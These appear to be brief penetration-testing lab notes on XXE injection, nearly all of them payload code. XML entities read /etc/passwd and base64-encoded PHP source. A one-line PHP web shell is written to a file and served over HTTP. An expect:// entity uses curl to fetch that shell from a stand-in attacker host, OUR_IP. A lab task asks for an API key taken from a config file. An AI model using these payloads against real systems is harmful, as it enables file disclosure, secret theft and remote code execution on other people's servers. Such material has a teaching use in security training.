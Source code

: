 ___

# Local File Disclosure

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## RCE

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer. 

# Advanced ##Exfiltration with CDATA